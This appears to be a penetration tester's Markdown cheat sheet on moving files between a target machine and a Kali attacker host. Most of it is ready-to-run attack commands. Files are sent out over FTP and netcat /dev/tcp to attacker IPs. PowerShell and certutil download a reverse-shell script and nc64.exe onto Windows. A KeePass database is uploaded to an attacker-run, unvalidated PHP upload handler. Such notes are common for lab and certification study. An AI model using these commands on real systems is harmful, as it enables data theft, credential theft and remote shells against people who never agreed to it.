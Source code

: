 ### Transfer Files
https://raw.githubusercontent.com/eMVee-NL/MindMap/refs/heads/main/image/Mindmap%20transfer%20files%20to%20ATTACKER.png
####  Linux -> Kali
FTP 

```
python3 -m pyftpdlib -w -p 21 -u nabecos -P 123 #On Kali
ftp 10.10.16.18
mput tickets.db
```


Transfer File Netcat

```
nc -lnvp 9001 > test.txt
cat test.txt > /dev/tcp/10.10.16.33/9001
```

Scp
```
scp julian@172.16.2.101:/usr/sbin/readfile .
```

#### Kali -> Windows

```
powershell -c "(New-Object Net.WebClient).DownloadFile('http://192.168.45.210/Invoke-ConPtyShell.ps1', 'Invoke-ConPtyShell.ps1')"

certutil -urlcache -split -f http://192.168.45.188/nc64.exe C:\Users\Public\nc64.exe
```

#### Windows -> Kali

```
upload.php
<?php
$uploaddir = '/home/nabecos/Desktop/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>

sudo php -S 0.0.0.0:4444
```

```
(New-Object System.Net.WebClient).UploadFile('http://192.168.45.216:8000/upload.php', 'C:\Users\jim\Documents\Database.kdbx')
```

## Identify OS

Quickly identify the type of machine (linux/windows) by pinging and noticing the TTL value. Windows ≤ **128**; Unix/Linux ≤ **64**.
